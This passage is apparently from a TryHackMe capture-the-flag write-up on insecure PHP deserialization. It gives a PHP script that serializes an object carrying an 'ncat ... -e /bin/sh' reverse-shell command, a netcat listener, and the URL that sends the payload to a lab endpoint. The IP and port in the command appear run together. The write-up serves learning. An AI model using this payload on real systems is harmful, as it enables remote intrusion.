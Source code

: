 What is the flag value after getting the reverse shell?

To achieve RCE, TryHackMe gives a php code to create a malicious class that executes system commands:
```php
<?php
class MaliciousUserData {
public $command = 'ncat -nv 10.10.195.994444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

<figure class="text-center">
  <img src="../assets/img/InsecureDeserialization_indexPHP.png" alt="Index php file">
  <figcaption><em>Index php file</em></figcaption>
</figure>



On my attack machine, I started a netcat listener: `nc -nvlp 4444`.

I navigated to the vulnerable endpoint with my base64-encoded payload: `http://10.10.195.99/case2/?decode=[SHELLCODE]`



<figure class="text-center">
  <img src="../assets/img/InsecureDeserialization_browserData.png" alt="Browser view of php BASE64_PAYLOAD">
  <figcaption><em>Browser view of php BASE64_PAYLOAD</em></figcaption>
</figure>
